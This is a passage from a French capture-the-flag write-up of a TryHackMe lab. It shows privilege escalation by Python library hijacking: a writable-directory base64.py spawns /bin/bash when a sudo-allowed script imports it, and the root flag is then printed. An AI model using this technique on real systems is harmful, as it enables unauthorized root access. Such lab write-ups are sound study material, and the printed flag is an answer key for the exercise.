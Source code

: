 **Escalate privileges and obtain root.txt**

```bash
sudo -l
Matching Defaults entries for veronica on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User veronica may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (root : root) NOPASSWD: /usr/bin/python3.5 /home/veronica/base.py

```

On voit que base.py peut être exécuté avec les droit root et sans mot de passe.   

```bash
cat base.py
import base64

hijackme = base64.b64encode(b'tryhackme is the best')
print(hijackme)

python3 -c "import pty;pty.spawn('/bin/bash')"

veronica@ubuntu:~$ ls -al base.py
ls -al base.py
-rw-r--r-- 1 root root 86 Jul 23  2020 base.py

```

On voit que l'on peut pas modifier le fichier base.py.  

On vait faire une usurpation de librairie.   

```bash
veronica@ubuntu:~$ echo "import os" > base64.py  
echo "import os" > base64.py 
veronica@ubuntu:~$ echo "def b64encode(binary):" >> base64.py
echo "def b64encode(binary):" >> base64.py
veronica@ubuntu:~$ echo "    os.system(\"/bin/bash\");" >> base64.py
echo "    os.system(\"/bin/bash\");" >> base64.py

veronica@ubuntu:~$ sudo /usr/bin/python3.5 /home/veronica/base.py 
sudo /usr/bin/python3.5 /home/veronica/base.py 
root@ubuntu:~# 
cat /root/root.txt
THM{02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}   
```

On écrit un fichier base64.py  qui exécuter un shell à la place de la vrai librairie.   
On lance le base64.py avec sudo.   
On obtient un shell root.  

La réponse est : THM{02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}     